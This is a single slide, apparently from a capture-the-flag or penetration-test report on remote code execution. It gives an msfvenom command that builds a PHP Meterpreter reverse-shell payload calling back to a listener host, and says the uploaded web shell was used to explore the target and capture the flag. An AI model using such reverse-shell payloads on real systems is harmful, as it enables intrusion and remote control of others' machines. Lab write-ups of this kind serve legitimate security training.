

# Exploitation: [Remote Code Execution]
01

02

03

msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >> shell.php

Achieving a shell on the target allowed us to display all files and capture the flag

Tools & Processes

Used Meterpreter to connect to uploaded web shell
Used shell to explore and compromise target

Achievements

Leveraging the RCE allowed us to open a Meterpreter shell to the target
Once on the target, the full file system was available for exploration